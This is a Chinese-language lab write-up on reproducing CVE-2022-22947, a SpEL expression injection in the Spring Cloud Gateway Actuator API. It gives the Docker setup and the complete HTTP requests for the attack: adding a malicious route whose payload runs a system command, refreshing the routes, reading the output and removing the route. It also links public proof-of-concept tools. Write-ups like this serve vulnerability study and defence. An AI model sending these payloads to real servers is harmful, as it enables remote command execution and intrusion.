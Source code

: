 # Spring Cloud Gateway Actuator API SpEL 表达式注入命令执行 CVE-2022-22947

## 漏洞描述

Spring Cloud Gateway 是 Spring 中的一个 API 网关。其 3.1.0 及 3.0.6 版本（包含）以前存在一处 SpEL 表达式注入漏洞，当攻击者可以访问 Actuator API 的情况下，将可以利用该漏洞执行任意命令。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22947
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/

## 环境搭建

Vulhub 执行如下命令启动一个使用了 Spring Cloud Gateway 3.1.0 的 Web 服务：

```
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可看到演示页面，这个页面的上游就是 example.com。

![image-20220303205830334](images/202203032058450.png)

## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意 SpEL 表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

![image-20220303210101595](images/202203032101702.png)

然后，发送如下数据包应用刚添加的路由。这个数据包将触发 SpEL 表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20220303210310706](images/202203032103775.png)

发送如下数据包即可查看执行结果：

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20220303210439398](images/202203032104469.png)

最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

![image-20220303210537118](images/202203032105191.png)

## 开源 POC

- Xray
- https://github.com/chaosec2021/CVE-2022-22947-POC

